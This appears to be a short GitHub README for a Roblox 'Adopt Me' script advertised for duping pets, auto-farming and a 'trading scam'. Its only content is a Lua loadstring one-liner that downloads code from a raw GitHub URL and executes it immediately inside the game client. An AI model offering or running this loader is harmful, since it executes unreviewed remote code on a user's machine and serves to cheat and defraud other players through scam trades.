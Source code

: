 # Roblox-adopt-me-dupping-pets-auto-farm-trading-scam
loadstring(game:HttpGet("https://raw.githubusercontent.com/Ultra-Scripts/AdoptmeScript/main/AdoptmeScript/IG97HCZ-adopt-me.lua"))()
